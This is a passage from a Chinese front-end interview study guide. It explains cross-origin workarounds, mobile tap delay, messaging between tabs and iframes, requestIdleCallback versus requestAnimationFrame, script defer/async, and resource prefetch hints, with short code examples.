          proxy_set_header X-Real-IP $remote_addr;
          proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;

      }
    }
```

**4.4 Node 中间层接口转发**

    const router = require('koa-router')()
    const rp = require('request-promise');

    // 通过node中间层转发实现接口跨域
    router.post('/github', async (ctx, next) => {
      let {category = 'trending',lang = 'javascript',limit,offset,period} = ctx.request.body
      lang = lang || 'javascript'
      limit = limit || 30
      offset = offset || 0
      period = period || 'week'
      let res =  await rp({
        method: 'POST',
        // 跨域的接口
        uri: `https://e.juejin.cn/resources/github`,
        body: {
          category,
          lang,
          limit,
          offset,
          period
        },
        json: true
      })

      ctx.body = res
    })

    module.exports = router

**4.5 Proxy**

如果是通过`vue-cli`脚手架工具搭建项目，我们可以通过`webpack`为我们起一个本地服务器作为请求的代理对象

通过该服务器转发请求至目标服务器，得到结果再转发给前端，但是最终发布上线时如果 web 应用和接口服务器不在一起仍会跨域

在`vue.config.js`文件，新增以下代码

    module.exports = {
      devServer: {
        host: '127.0.0.1',
        port: 8080,
        open: true,// vue项目启动时自动打开浏览器
        proxy: {
          '/api': { // '/api'是代理标识，用于告诉node，url前面是/api的就是使用代理的
            target: "http://xxx.xxx.xx.xx:8080", //目标地址，一般是指后台服务器地址
            changeOrigin: true, //是否跨域
            pathRewrite: { // pathRewrite 的作用是把实际Request Url中的'/api'用""代替
              '^/api': ""
            }
          }
        }
      }
    }

通过`axios`发送请求中，配置请求的根路径

    axios.defaults.baseURL = '/api'

此外，还可通过服务端实现代理请求转发，以`express`框架为例

    var express = require('express');
    const proxy = require('http-proxy-middleware')
    const app = express()
    app.use(express.static(__dirname + '/'))
    app.use('/api', proxy({ target: 'http://localhost:4000', changeOrigin: false
                          }));
    module.exports = app

**4.6 websocket**

`webSocket`本身不存在跨域问题，所以我们可以利用`webSocket`来进行非同源之间的通信原理：利用`webSocket`的`API`，可以直接`new`一个`socket`实例，然后通过`open`方法内`send`要传输到后台的值，也可以利用`message`方法接收后台传来的数据。后台是通过`new WebSocket.Server({port:3000})`实例，利用`message`接收数据，利用`send`向客户端发送数据。具体看以下代码：

    function socketConnect(url) {
        // 客户端与服务器进行连接
        let ws = new WebSocket(url); // 返回`WebSocket`对象，赋值给变量ws
        // 连接成功回调
        ws.onopen = e => {
          console.log('连接成功', e)
          ws.send('我发送消息给服务端'); // 客户端与服务器端通信
        }
        // 监听服务器端返回的信息
        ws.onmessage = e => {
          console.log('服务器端返回：', e.data)
          // do something
        }
        return ws; // 返回websocket对象
    }
    let wsValue = socketConnect('ws://121.40.165.18:8800'); // websocket对象

**4.7 document.domain（不常用）**

- 该方式只能用于二级域名相同的情况下，比如 `a.test.com` 和 `b.test.com` 适用于该方式。
- 只需要给页面添加 `document.domain = 'test.com'` 表示二级域名都相同就可以实现跨域
- 自 `Chrome 101` 版本开始，`document.domain` 将变为可读属性，也就是意味着上述这种跨域的方式被禁用了

**4.8 postMessage（不常用）**

在两个 `origin` 下分别部署一套页面 `A` 与 `B`，`A` 页面通过 `iframe` 加载 `B` 页面并监听消息，`B` 页面发送消息这种方式通常用于获取嵌入页面中的第三方页面数据。一个页面发送消息，另一个页面判断来源并接收消息

    // 发送消息端
    window.parent.postMessage('message', 'http://test.com');
    // 接收消息端
    var mc = new MessageChannel();
    mc.addEventListener('message', (event) => {
        var origin = event.origin || event.originalEvent.origin;
        if (origin === 'http://test.com') {
            console.log('验证通过')
        }
    });

**4.9 window.name（不常用）**

> 主要是利用 `window.name` 页面跳转不改变的特性实现跨域，即 `iframe` 加载一个跨域页面，设置 `window.name`，跳转到同域页面，可以通过 `$('iframe').contentWindow.name` 拿到跨域页面的数据

**实例说明**

比如有一个`www.example.com/a.html`页面。需要通过`a.html`页面里的`js`来获取另一个位于不同域上的页面`www.test.com/data.html`中的数据。

`data.html`页面中设置一个`window.name`即可,代码如下

    <script> window.name = "我是data.html中设置的a页面想要的数据"; </script>

- 那么接下来问题来了，我们怎么把`data.html`页面载入进来呢，显然我们不能直接在`a.html`页面中通过改变`window.location`来载入`data.html`页面（因为我们现在需要实现的是`a.html`页面不跳转,但是也能够获取到`data.html`中的数据）
- 具体的实现其实就是在`a.html`页面中使用一个隐藏的`iframe`来充当一个中间角色，由`iframe`去获取`data.html`的数据，然后`a.html`再去得到`iframe`获取到的数据。
- 充当中间人的`iframe`想要获取到`data.html`中通过`window.name`设置的数据，只要要把这个`iframe`的`src`设置为`www.test.com/data.html`即可,然后`a.html`想要得到`iframe`所获取到的数据，也就是想要得到`iframe`的`widnow.name`的值，还必须把这个`iframe`的`src`设置成跟`a.html`页面同一个域才行，不然根据同源策略，`a.html`是不能访问到`iframe`中的`window.name`属性的

    <!-- a.html中的代码 -->
    <iframe id="proxy" src="http://www.test.com/data.html" style="display: none;" onload = "getData()">

    <script> function getData(){ var iframe = document.getElementById('proxy); iframe.onload = function(){ var data = iframe.contentWindow.name; //上述即为获取iframe里的window.name也就是data.html页面中所设置的数据； } iframe.src = 'b.html'; //这里的b为随便的一个页面，只有与a.html同源就行，目的让a.html等访问到iframe里的东西，设置成about:blank也行 } </script>

上面的代码只是最简单的原理演示代码，你可以对使用 js 封装上面的过程，比如动态的创建`iframe`,动态的注册各种事件等等，当然为了安全，获取完数据后，还可以销毁作为代理的`iframe`

**4.10 扩展阅读**

**跨域与监控**

前端项目在统计前端报错监控时会遇到上报的内容只有 `Script Error` 的问题。这个问题也是由同源策略引起。在 `<script>` 标签上添加 `crossorigin="anonymous"` 并且返回的 JS 文件响应头加上 `Access-Control-Allow-Origin: *` 即可捕捉到完整的错误堆栈

**跨域与图片**

前端项目在图片处理时可能会遇到图片绘制到 `Canvas` 上之后却不能读取像素或导出 `base64` 的问题。这个问题也是由同源策略引起。解决方式和上文相同，给图片添加 `crossorigin="anonymous"` 并在返回的图片文件响应头加上 `Access-Control-Allow-Origin: *` 即可解决

## 移动端 H5 点击有 300ms 延迟，该如何解决

**解决方案**

- 禁用缩放，设置`meta`标签 `user-scalable=no`
- 现在浏览器方案 `meta`中设置`content="width=device-width"`
- `fastclick.js`

**初期解决方案 fastClick**

    // 使用
    window.addEventListener('load',()=>{
      FastClick.attach(document.body)
    },false)

**fastClick 原理**

- 监听`touchend`事件（`touchstart` `touchend`会先于`click`触发）
- 使用自定义`DOM`事件模拟一个`click`事件
- 把默认的`click`事件（`300ms`之后触发）禁止掉

**触摸事件的响应顺序**

- `ontouchstart`
- `ontouchmove`
- `ontouchend`
- `onclick`

**现代浏览器的改进** `meta`中设置`content="width=device-width"` 就不会有`300ms`的点击延迟了。浏览器认为你要在移动端做响应式布局，所以就禁止掉了

    <head>
      <meta name="viewport" content="width=device-width,initial-scale=1.0" />
    </head>

## 如何实现网页多标签 tab 通讯

- 通过`websocket`
  - 无跨域限制
  - 需要服务端支持，成本高
- 通过`localStorage`同域通讯（推荐）
  - `同域`的`A`和`B`两个页面
  - `A`页面设置`localStorage`
  - `B`页面可监听到`localStorage`值的修改
- 通过`SharedWorker`通讯
  - `SharedWorker`是`WebWorker`的一种
  - `WebWorker`可开启子进程执行`JS`，但不能操作`DOM`
  - `SharedWorker`可单独开启一个进程，用于同域页面通讯
  - `SharedWorker`兼容性不太好，调试不方便，`IE11`不支持

**localStorage 通讯例子**

    <!-- 列表页 -->
    <p>localStorage message - list page</p>

    <script> // 监听storage事件 window.addEventListener('storage', event => { console.info('key', event.key) console.info('value', event.newValue) }) </script>

    <!-- 详情页 -->
    <p>localStorage message - detail page</p>

    <button id="btn1">修改标题</button>

    <script> const btn1 = document.getElementById('btn1') btn1.addEventListener('click', () => { const newInfo = { id: 100, name: '标题' + Date.now() } localStorage.setItem('changeInfo', JSON.stringify(newInfo)) }) // localStorage 跨域不共享 </script>

**SharedWorker 通讯例子**

本地调试的时候打开 chrome 隐私模式验证，如果没有收到消息，打开`chrome://inspect/#workers` =\> `sharedWorkers` =\> 点击`inspect`



    <p>SharedWorker message - list page</p>

    <script> const worker = new SharedWorker('./worker.js') worker.port.onmessage = e => console.info('list', e.data) </script>

    <p>SharedWorker message - detail page</p>
    <button id="btn1">修改标题</button>

    <script> const worker = new SharedWorker('./worker.js') const btn1 = document.getElementById('btn1') btn1.addEventListener('click', () => { console.log('clicked') worker.port.postMessage('detail go...') }) </script>

    // worker.js

    /** * @description for SharedWorker */

    const set = new Set()

    onconnect = event => {
      const port = event.ports[0]
      set.add(port)

      // 接收信息
      port.onmessage = e => {
        // 广播消息
        set.forEach(p => {
          if (p === port) return // 不给自己广播
          p.postMessage(e.data)
        })
      }

      // 发送信息
      port.postMessage('worker.js done')
    }

**连环问：如何实现网页和 iframe 之间的通讯**

- 使用`postMessage`通信
- 注意跨域的限制和判断，判断域名的合法性

演示

    <!-- 首页 -->
    <p>
      index page
      <button id="btn1">发送消息</button>
    </p>

    <iframe id="iframe1" src="./child.html"></iframe>

    <script> document.getElementById('btn1').addEventListener('click', () => { console.info('index clicked') window.iframe1.contentWindow.postMessage('hello', '*') // * 没有域名限制 }) // 接收child的消息 window.addEventListener('message', event => { console.info('origin', event.origin) // 来源的域名 console.info('index received', event.data) }) </script>

    <!-- 子页面 -->
    <p>
      child page
      <button id="btn1">发送消息</button>
    </p>

    <script> document.getElementById('btn1').addEventListener('click', () => { console.info('child clicked') // child被嵌入到index页面，获取child的父页面 window.parent.postMessage('world', '*') // * 没有域名限制 }) // 接收parent的消息 window.addEventListener('message', event => { console.info('origin', event.origin) // 判断 origin 的合法性 console.info('child received', event.data) }) </script>

效果



## requestIdleCallback 和 requestAnimationFrame 有什么区别

由`react fiber`引起的关注

- 组件树转为链表，可分段渲染
- 渲染时可以暂停，去执行其他高优先级任务，空闲时在继续渲染（`JS`是单线程的，`JS`执行的时候没法去`DOM`渲染）
- 如何判断空闲？`requestIdleCallback`

**区别**

- `requestAnimationFrame` 每次渲染完在执行，高优先级
- `requestIdleCallback` 空闲时才执行，低优先级
- 都是宏任务，要等待 DOM 渲染完后在执行





    <p>requestAnimationFrame</p>

    <button id="btn1">change</button>
    <div id="box"></div>

    <script> const box = document.getElementById('box') document.getElementById('btn1').addEventListener('click', () => { let curWidth = 100 const maxWidth = 400 function addWidth() { curWidth = curWidth + 3 box.style.width = `${curWidth}px` if (curWidth < maxWidth) { window.requestAnimationFrame(addWidth) // 时间不用自己控制 } } addWidth() }) </script>

    window.onload = () => {
      console.info('start')
      setTimeout(() => {
        console.info('timeout')
      })
      // 空闲时间才执行
      window.requestIdleCallback(() => {
        console.info('requestIdleCallback')
      })
      window.requestAnimationFrame(() => {
        console.info('requestAnimationFrame')
      })
      console.info('end')
    }

    // start
    // end
    // timeout
    // requestAnimationFrame
    // requestIdleCallback

## script 标签的 defer 和 async 有什么区别

- `script`：`HTML`暂停解析，下载`JS`，执行`JS`，在继续解析`HTML`。
- `defer`：`HTML`继续解析，并行下载`JS`，`HTML`解析完在执行`JS`（不用把`script`放到`body`后面，我们在`head`中`<script defer>`让`js`脚本并行加载会好点）
- `async`：`HTML`继续解析，并行下载`JS`，执行`JS`（`加载完毕后立即执行`），在继续解析`HTML`
  - 加载完毕后立即执行，这导致`async`属性下的脚本是乱序的，对于 `script` 有先后依赖关系的情况，并不适用

> 注意：`JS`是单线程的，`JS`解析线程和`DOM`解析线程共用同一个线程，`JS执行和HTML解析是互斥的`，加载资源可以并行



> 蓝色线代表网络读取，红色线代表执行时间，这俩都是针对脚本的；绿色线代表 `HTML` 解析

**连环问：prefetch 和 dns-prefetch 分别是什么**

**preload 和 prefetch**

- `preload` 资源在当前页面使用，会优先加载
- `prefetch` 资源在未来页面使用，空闲时加载

    <head>
      <!-- 当前页面使用 -->
      <link rel="preload" href="style.css" as="style" />
      <link rel="preload" href="main.js" as="script" />

      <!-- 未来页面使用 提前加载 比如新闻详情页 -->
      <link rel="prefetch" href="other.js" as="script" />

      <!-- 当前页面 引用css -->
      <link rel="stylesheet" href="style.css" />

    </head>
    <body>
      <!-- 当前页面 引用js -->
      <script src="main.js" defer></script>
    </body>

**dns-preftch 和 preconnect**

- `dns-pretch` `DNS`预查询
- `preconnect` `DNS`预连接

通过预查询和预连接减少`DNS`解析时间

    <head>
      <!-- 针对未来页面提前解析：提高打开速度 -->
      <link rel="dns-pretch" href="https://font.static.com" />
      <link rel="preconnect" href="https://font.static.com" crossorigin />
    </head>
